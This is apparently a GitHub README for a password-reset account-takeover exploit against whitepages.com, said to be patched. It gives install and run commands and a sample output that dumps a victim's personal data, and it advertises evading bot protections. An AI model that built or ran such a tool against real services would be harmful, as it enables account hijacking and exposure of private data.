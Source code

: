 <p align="center">
  <img src="https://img.shields.io/badge/Status-Patched-red?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Language-Python-blue?style=for-the-badge" />
  <img src="https://img.shields.io/badge/PoC-Educational%20Use%20Only-orange?style=for-the-badge" />
</p>

<h1 align="center">⚡ Whitepages.com Vulnerability Exploit (Patched) ⚡</h1>

<p align="center">
  <strong>⚠️ CVE-2025-XXXX | Exploit by <a href="https://t.me/Swezy">@Swezy</a></strong><br>
  <em>13. September 2025</em>
</p>

---

## 🧠 Overview

This repository contains a **Proof of Concept (PoC)** for a **patched vulnerability** on [whitepages.com](https://www.whitepages.com).  
The exploit demonstrates how an attacker **could have reset user passwords** via a vulnerable endpoint, extracting detailed account data.

> ⚠️ **This exploit no longer works.**  
> It is provided **for educational and research purposes only** to study how such flaws can occur and how to prevent them.

---

## ✨ Features

- 🧰 Automates **password reset exploit flow**
- 🌐 Uses `undetected_chromedriver` and `cloudscraper` to bypass protections
- 🔐 Secure password input handling
- 📅 Beautifully formatted timestamps and account info
- 💻 Includes **GUI** and **CLI** versions
- 🧠 Detailed output with PII (personally identifiable information)

---

## ⚙️ Requirements

- Python **3.9+**
- Google Chrome installed (for `undetected_chromedriver`)

### 🧩 Python Modules
```bash
pip install undetected-chromedriver cloudscraper python-dateutil colorama secure-input
````

---

## 🚀 Usage

### ▶️ Command-Line (CUI) Version

```bash
python main.py
```

### 🖥️ GUI Version

```bash
python main.py
```

You'll be prompted for the target's email address and a new password.
The script will attempt the old reset flow and display all captured PII (personally identifiable information).

---

## 🧪 Example Output

```bash
Whitepages.com Vulnerability | Telegram @Swezy

[?] Enter E-Mail ➔ example@example.com
[?] Enter new Password ➔ ***********

[*] Preparing Exploit Payload...

[*] Sending Exploit Payload...
[+] Exploit Sent Successfully [202]

[✓] Reset Password URL: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx

[*] Preparing Password Reset Exploit...

[*] Sending Password Reset Exploit...

[*] Account Details Found

[✓] Primary Email: example@example.com
[✓] Associated Emails:
    [-] Email: example@example.com
    [-] ID: xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxx
    [-] User ID: xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxx
    [-] Created At: 13-03-1337T13-03-37 (1337 days ago)
[✓] Password: Example
[✓] Name: Example
[✓] Full Name: Example Example Example
[✓] Associated Phone Numbers:
    [-] Phone Number: +13 37 1337 1337
    [-] ID: xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxx
    [-] User ID: xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxx
    [-] Created At: 13-03-1337T13-03-37 (1337 days ago)
[✓] Account ID: xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxx
[✓] IP Address: xxx.xxx.xxx.xxx
[✓] User Type: expired
[✓] Login Allowed: True
[✓] Membership Type: expired
[✓] Business Features Status: none
[✓] Has Business Features: False
[✓] Has Full Property Features: False
[✓] Premium Subscriber: False
[✓] Account Created at: 13-03-1337T13-03-37 (1337 days ago)
[✓] Password Changed at: 13-03-1337T13-03-37 (1337 days ago)
[✓] Subscription Ended at: 13-03-1337T13-03-37 (1337 days ago)
[✓] Payment Edited at: 13-03-1337T13-03-37 (1337 days ago)
[✓] Premium ToS Accepted at: 13-03-1337T13-03-37 (1337 days ago)
[✓] Landlord ToS Accepted at: 13-03-1337T13-03-37 (1337 days ago)
[✓] Suspended: False
[✓] Disabled: False
[✓] Mobile: False
[✓] Industry: None
[✓] Legacy Modal: False
[✓] Auto Monitor Disabled: False
[✓] PNP Beta Opt in: False

[+] Password Reset Successfully [200]
[✓] New Password: ***********

[$] Total Time Taken: 13.37s
```

---

## ⚠️ Disclaimer

> This tool is a **Proof of Concept** created **for educational and research purposes only**.
> Do **not** use this against any live systems without **explicit authorization**.
> The author is **not responsible** for any misuse or damages caused.

---

## 🧠 Educational Purpose

This repository aims to help **security researchers** and **developers** understand:

* How insecure password reset flows can be exploited
* Why proper token validation and rate limiting are critical
* How to build secure recovery systems

---

## 📜 License

Distributed under the **MIT License**. See `LICENSE` for more information.

---

## 💬 Contact

- 📞 Telegram: [@Swezy](https://t.me/Swezy)
- 🐈‍⬛ GitHub: [@SwezyDev](https://github.com/SwezyDev)
- ✖️ X: [@Swezy_1337](https://x.com/Swezy_1337)

---

<p align="center">
  <em>🧠 Knowledge is power. Use it ethically. 🧠</em><br>
  <strong>© 2025 Swezy</strong>
</p>

